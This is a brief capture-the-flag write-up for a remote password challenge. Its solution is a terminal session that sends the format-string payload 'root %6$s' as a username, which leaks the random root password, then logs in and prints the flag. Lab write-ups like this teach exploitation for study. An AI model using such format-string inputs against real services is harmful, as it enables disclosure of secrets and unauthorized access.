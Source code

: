 ### Chal Desc: 

root has a random password. Find the password to get the file.

$ nc cybersecweek.ua.pt 2012

#### Soln:
Format string Vuln to leak the password. We have to brute force the location to print out the flag

```python
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/downloads$ nc cybersecweek.ua.pt 2012
Generating Random Pass...Done
User: abc
abc

Invalid user

^Z
[8]+  Stopped                 nc cybersecweek.ua.pt 2012
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/downloads$ nc cybersecweek.ua.pt 2012
Generating Random Pass...Done
User: root %6$s
root 2xjYV4fTq2cDJxAe

Pass: 2xjYV4fTq2cDJxAe
CTFUA{-_printf_is_not_print_-}
```

Thank yoy
